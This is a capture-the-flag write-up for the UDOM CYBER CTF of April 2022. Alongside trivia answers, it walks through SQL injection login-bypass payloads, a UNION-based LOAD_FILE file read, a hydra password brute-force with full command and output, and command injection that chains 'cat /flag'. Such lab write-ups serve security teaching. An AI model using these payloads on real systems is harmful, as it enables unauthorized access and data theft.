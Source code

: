 # UDOM CYBER CTF APRIL 2022 WRITEUP

#### username: `Hashghost`
[ToC]

> This ctf was created and hosted by UDOM CYBER leaders for the purpose of improving knowledge.
> If you want to check click [udom](http://129.80.41.223/challenges).
> It invlolved different categories such as follows:
 >-  General Information
 >-  Web  



 Lets roll to the challenges. 
--

CHAR CHALLENGE.
--
![](https://i.imgur.com/quIQhbC.png)

**Solution**
I though maybe it can a letter like **e** but i realized it is symbol (character) .
**Flag**: **UDOM{'}**
-- -

NEW CHALLENGE.
--
![](https://i.imgur.com/eZeUgES.png)
The first thing came up on my mind was to check on [OWASPTop10](https://owasp.org/Top10/) website for 2021.
**Flag:** **UDOM{SSRF}**
-- -

SQL CHALLENGE.
-- 
![](https://i.imgur.com/YLw1T6H.png)
All i know SQL is structured database and database use queries. :smile: then,
**Flag:** **UDOM{STRUCTURED_QUERY_LANGUAGE}**
-- -

YEAR CHALLENGE.
--
![](https://i.imgur.com/6BuOrjl.png)
Google is my friend so i jus googled it.
**Flag:** **UDOM{1998}**
-- -

ORG CHALLENGE.
-- 
![](https://i.imgur.com/53XDnvL.png)
If you got on ```new challenge```  then this one was similar to that.
**Flag:** **UDOM{OWASP}**
-- -

TOOL CHALLENGE.
--
![](https://i.imgur.com/XmR5Gj4.png)
If you are kali linux or parrot user i gues this was piece of cake.
**Flag:** **UDOM{sqlmap}**
-- -

CVE CHALLENGE.
-- 
![](https://i.imgur.com/BBtmdLM.png)
CVE stands for Common Vulnerabilty Exposure, is a list of publicly disclosed computer security flaws. When someone refers to a CVE, they mean a security flaw that's been assigned a CVE ID number.
**Flag** **UDOM{Blazer}**
-- -

ERRRor CHALLENGE.
--
![](https://i.imgur.com/TRtcccD.png)
This challenge mocked us with error hint meaning that our flag might have beeen on the error. I used the payload ```' or 1=1-- - ``` and then error with flag poped up but it wasn't a real flag so i tried another method which is ``` ' 1 or 1=1-- -``` and i was succefully bypassed the login page.
![](https://i.imgur.com/noMIzRu.png)
After loging in this was **Flag** 

![](https://i.imgur.com/zQXNo9u.png)
-- --

BYPASS LOGIN CHALLENGE.
--
![](https://i.imgur.com/RytQMVQ.png)
So this was error based sql injection but on instruction  challenge but it was written as login challenge.
I used the payload ``` ' or 1=1-- -``` and i got the pop-up which had a flag.
![](https://i.imgur.com/JkMV7Qt.png)
**Flag is located on the right hand side of the web page**
-- -

BRUTEFORCE CHALLENGE
--
![](https://i.imgur.com/KXxX37g.png)
Since the question says about ```admin``` then thats a user of the web page.
I used burp suite to solve the challenge and letter on i used interesting tool called hydra.

:::info
 **Burp suit.**
:::
**I will show some few steps here because i believe you are able to start,capture,intercept on burpsuite.**

**Login page to brute froce.**
![](https://i.imgur.com/1KSgCkV.png)


**Capture request from the web page and sent it to intruder.**
![](https://i.imgur.com/4Qm0peR.png)


**Clear all unnecessary and leave only required parts, for our case we need to bruteforce password field.**
![](https://i.imgur.com/E7WvzaR.png)

**Load the password file and start the attack.**
![](https://i.imgur.com/htZnLv2.png)

**Once it finishes, filter with a common error. In our case the common error for all unsuccessful login was** ```LOGIN FAILED```
![](https://i.imgur.com/YUB9nC5.png)

**Select Negative search to allow burp to filter pages and return those with no ```LOGIN FAILED``` Error message.**
![](https://i.imgur.com/7bhUoen.png)

**By doing so we get request number 501 has what we need and the passowrd is** ```chocolatelimao```
![](https://i.imgur.com/Ytl2b2y.png)

**Login to get flag.**
![](https://i.imgur.com/aaBmIUn.png)




:::info
 Using command line tool **hydra** .
:::
```
┌──(gemstone㉿kali)-[~]
└─$ hydra -l admin -P ~/Downloads/passlist\(1\).txt 129.80.41.223 -s 8889 http-post-form "/:username=^USER^&password=^PASS^&submit=submit:F=LOGIN FAILED" -V -I         
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-04-23 04:00:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1284 login tries (l:1/p:1284), ~81 tries per task
[DATA] attacking http-post-form://129.80.41.223:8889/:username=^USER^&password=^PASS^&submit=submit:F=LOGIN FAILED
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolate!1" - 1 of 1284 [child 0] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolate!%!$" - 2 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "cafeconchocolate" - 3 of 1284 [child 2] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelove1" - 495 of 1284 [child 5] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelova4lyf" - 496 of 1284 [child 9] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelol" - 497 of 1284 [child 13] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolateloki4854581" - 498 of 1284 [child 6] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelog" - 499 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelipz" - 500 of 1284 [child 11] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatelimao" - 501 of 1284 [child 15] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekissess" - 509 of 1284 [child 2] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekiss8-21" - 510 of 1284 [child 14] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolateking" - 511 of 1284 [child 5] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekik" - 512 of 1284 [child 9] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekatie" - 513 of 1284 [child 6] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekathy" - 514 of 1284 [child 1] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatekate" - 515 of 1284 [child 13] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatejj" - 516 of 1284 [child 0] (0/0)
[ATTEMPT] target 129.80.41.223 - login "admin" - pass "chocolatejeremy" - 517 of 1284 [child 11] (0/0)
[8889][http-post-form] host: 129.80.41.223   login: admin   password: chocolatelimao
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-04-23 04:01:28
```
**Password found on [8889] password:==```chocolatelimao```==**
-- -
SQL LOGIC CHALLENGE.
--
![](https://i.imgur.com/HcXV2uk.png)
This question aimed to challenge users understanding on basic concept of the UNION based SQL injection. As the question stated itself there was an injection in the age field and database had 5 columns.
I used some of internet resources and  came to realise that, inorder to read files on SQL, then LOAD_FILE() function is used. For more information you can visit [VK9Security](https://vk9-sec.com/advanced-sql-injection-union-based/) or you can download this [pdf](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwjE86eV86z3AhWbQkEAHYqNC4sQFnoECA8QAQ&url=https%3A%2F%2Fwww.blackhat.com%2Fpresentations%2Fbh-europe-09%2FGuimaraes%2FBlackhat-europe-09-Damele-SQLInjection-slides.pdf&usg=AOvVaw0ke74DnHmvESOU8jgz3ygC).
On our question the important thing was to know where injection is, and it is in 3rd column named as ```age```.
Then required format was ```UDOM{'UNIONSELECT1,2,LOADFILE("/tmp/security.txt"),4,5;---}```
:::info
Note: Before UNION there is **'** then inorder to avoid error then use **""** where you want to read.
:::
-- -

COMMAND 1 CHALLENGE.
--
![](https://i.imgur.com/DNVVlxn.png)
If you know command injection then this was simple task all you had was to think out of the box. Question says ping or whois i don't know meaning you can execute more than one command by using **==```;```==** then i decided to use whois command.
```whois -h 129.80.41.223:8890; ls -l;``` and it output the following:


![](https://i.imgur.com/6VXkSlZ.png)

This was good start and as long as the question says get /flag then this must be stored in root directory and file named flag, so i decided to use another command.
```whois -h 129.80.41.223:8890; cat /flag;``` then i was able to see the flag 

![](https://i.imgur.com/OmHHdz8.png)

**The End**.
-- -

Thanks for reading you can check me on [twitter](https://twitter.com/hashghost101) or through my email sophiajulius5@gmail.com.
You can also imporove your knowledge by reading from my bothers [blackninja23](https://blackninja23.github.io/Urchinbank/), [malware](https://hackmd.io/@malwarepeter/r1-7i7f-q) and [peterchain](https://peterchain7.github.i/penetrationtesting/).
-- -
